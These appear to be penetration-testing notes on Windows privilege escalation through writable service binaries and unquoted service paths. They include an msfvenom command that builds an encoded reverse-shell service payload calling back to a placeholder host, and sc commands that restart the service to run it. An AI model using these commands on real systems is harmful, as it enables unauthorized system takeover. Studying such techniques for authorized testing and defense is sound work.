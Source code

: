 # windows

## Enumeration

run scripts such as PowerUp (PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.) and Winpeas.

## Writable and restartable services

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>an example</p></figcaption></figure>

in this example we can replace `ASCService.exe` with a payload and get a root reverse shell.

`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`

then restart the service:

```powershell
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemService9
[output...]
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemService9
```

## Unquoted service path

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

we can exploit this vulnerability by putting a payload named `Advanced.exe` in `C:\Program Files (x86)\IObit\`.

then again restart the service and the payload gets executed.

```
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemService9
[output...]
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemService9
```

explenation at [https://juggernaut-sec.com/unquoted-service-paths/](https://juggernaut-sec.com/unquoted-service-paths/).

eg.

if we have a service at **C:\Program Files\Juggernaut Prod\Production Tools\Juggernaut.exe**

Since there are spaces and no quotes in the file path to the service executable, the service will attempt to start by treating each part of the folder name before the space as an executable that resides in the previous folder, like so:

* C:\Program.exe
* C:\Program Files\Juggernaut.exe
* C:\Program Files\Juggernaut Prod\Production.exe
* C:\Program Files\Juggernaut Prod\Production Tools\Juggernaut.exe

